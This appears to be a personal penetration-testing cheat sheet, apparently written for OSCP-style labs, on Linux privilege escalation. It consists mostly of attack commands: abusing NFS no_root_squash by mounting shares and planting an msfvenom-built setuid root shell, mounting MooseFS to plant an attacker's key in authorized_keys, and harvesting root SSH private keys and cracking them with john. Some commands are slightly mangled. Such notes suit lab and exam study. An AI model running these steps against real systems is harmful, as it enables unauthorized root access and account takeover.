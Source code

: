 ```
cat /etc/exports (Look for no_root_squash or no_all_squash)  

showmount -e targetip  

mkdir /tmp/mount  

mount -o rw targetip:/backups/tmp/mount 
or
mount -t nfs ip:/var/backups/tmp/mount (use target ip:/ to mount all shares if multiple were available)  

msfvenom -p linux/x86/exec CMD="/bin/bash-p"-f elf -o /tmp/mount/shell.elf 

chmod +xs shell.elf  

ls -l shell.elf  

./shell.elf
or  
simpleexecutable.c in ~/stuffs/oscp 

gcc nfs.c -static -w -o nfs
or  
put bash suid there
```

## MOOSEFS:

```
mkdir -p /mnt/folder  
```
```
mfsmount /mnt/folder -H ip  
```
Check if there is .ssh folder if so,  
ssh-keygen and move .pub to /mnt/folder/.ssh/authorized_keys  
Look for .sync folder or try to identify username of the server to ssh 
```
ssh -i id_rsa user@ip  
```
or  
Try the above NFS method

## LOOK FOR HIDDEN FILES

```
ls -la /var/backups
```  
- check everything including every weird or typical process and internal
- ports config files has passwords  
- look for root private ssh keys.ssh.  
```
find / -name authorized_keys 2>/dev/null  
find / -name id_rsa 2>/dev/null  
copy/paste contents to kali  
chmod 600 id_rsa  
ssh -i id_rsa root@ip (crack pass using john)
```
